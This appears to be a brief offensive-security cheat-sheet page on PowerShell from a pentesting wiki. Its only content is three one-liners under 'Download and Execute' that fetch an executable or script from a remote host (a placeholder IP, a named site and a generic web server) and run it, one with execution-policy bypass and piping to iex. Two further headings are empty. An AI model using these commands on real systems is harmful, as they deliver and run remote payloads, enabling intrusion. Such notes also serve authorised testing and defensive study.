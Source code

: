 <!-- TITLE: Powershell -->
<!-- SUBTITLE: A quick summary of Powershell -->

# Download and Execute
Good reference for many ways:  https://www.greyhathacker.net/?p=500

```text
powershell (New-Object System.Net.WebClient).DownloadFile('http://<ip>',c:\temp\test.exe'); (New-Object -com Shell.Application).ShellExecute('c:\temp\test.exe');

PowerShell (New-Object System.Net.WebClient).DownloadFile('http://www.greyhathacker.net/tools/messbox.exe','mess.exe');Start-Process 'mess.exe'

powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

```


# Execute in memory

# Invoke DLL functions
